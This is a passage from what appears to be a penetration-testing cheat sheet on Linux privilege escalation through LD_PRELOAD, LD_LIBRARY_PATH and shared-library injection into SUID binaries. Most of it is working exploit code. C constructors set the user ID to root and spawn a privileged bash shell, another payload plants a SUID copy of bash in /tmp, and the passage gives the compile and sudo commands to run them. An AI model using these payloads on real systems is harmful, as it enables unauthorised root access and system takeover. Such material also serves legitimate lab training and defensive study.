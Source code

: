 ```bash
gcc -fPIC -shared -o root.so root.c -nostartfiles

sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

{% hint style="danger" %}
A similar privesc can be abused if the attacker controls the **LD\_LIBRARY\_PATH** env variable because he controls the path where libraries are going to be searched.
{% endhint %}

#### Example

{% embed url="https://lojique.gitbook.io/proving-grounds/v/sybaris/privilege-escalation" %}

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```bash
# Compile & execute
cd /tmp
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp <COMMAND>
```

### SUID Binary – .so injection

If you find some weird binary with **SUID** permissions, you could check if all the **.so** files are **loaded correctly**. To do so you can execute:

```bash
strace <SUID-BINARY> 2>&1 | grep -i -E "open|access|no such file"
```

For example, if you find something like: _pen(“/home/user/.config/libcalc.so”, O\_RDONLY) = -1 ENOENT (No such file or directory)_ you can exploit it.

Create the file _/home/user/.config/libcalc.c_ with the code:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
